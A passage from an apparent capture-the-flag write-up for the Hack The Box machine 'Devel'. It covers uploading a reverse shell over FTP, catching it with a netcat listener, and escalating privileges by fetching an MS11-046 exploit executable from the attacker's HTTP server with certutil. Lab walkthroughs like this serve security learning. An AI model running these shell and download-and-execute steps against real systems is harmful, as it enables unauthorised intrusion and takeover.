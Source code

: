 03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
05-15-23  04:53PM                   16 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Reverse shell successfully uploaded hehe. The next thing to do is to access it from the webpage.

Ensure you set up your netcat listener ```nc -lvnp 4443``` before accessing the reverse shell from the webpage.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5b37a08f-aa79-4356-9a17-b517ebedd9f1)

Now, lets access the reverse shell

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/99496086-9f7f-4f3c-9919-00a43002c868)

Checking our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/559cbb72-c446-4545-981a-dc8059f0dc22)

cool, we got a shell. Now lets escalate our privileges.




# Privilege Escalation

Using the command ```systeminfo``` I found something interesting

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b4623a11-c08c-40a0-ae16-704ea884a066)

Lets look for an exploit for this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9597ec4e-35dc-4416-bfd9-53792f0c2c37)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/41a5dfd9-1d93-49c1-8ea4-6b8c01312e0a)

We'll be downloading executable, you can download the executable [here](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe)

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ ls
40564.c  abeg.aspx  Devel  MS11-046.exe
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Now that we've downloaded this, we'll be sending it over to the target's machine.

To receive the file on the target's machine ensure you are in the ```Temp``` directory ```cd c:\Windows\Temp```

command:```certutil -urlcache -f http://10.10.14.31/MS11-046.exe abeg.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/83b7c9b7-e4e1-4e1e-bec3-e7e54bef6865)

```
